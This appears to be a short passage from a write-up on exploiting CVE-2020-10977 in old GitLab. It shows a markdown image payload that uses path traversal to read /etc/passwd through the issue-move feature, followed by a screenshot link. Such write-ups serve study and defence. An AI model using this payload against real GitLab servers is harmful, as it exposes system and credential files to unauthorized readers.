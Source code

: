 ```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../etc/passwd)
```

[![gitlab-move-issue.png](/assets/images/exploiting-cve-2020-10977-on-old-gitlab/gitlab-move-issue.png)](/assets/images/exploiting-cve-2020-10977-on-old-gitlab/gitlab-move-issue.png)

Here is where the error occurs.
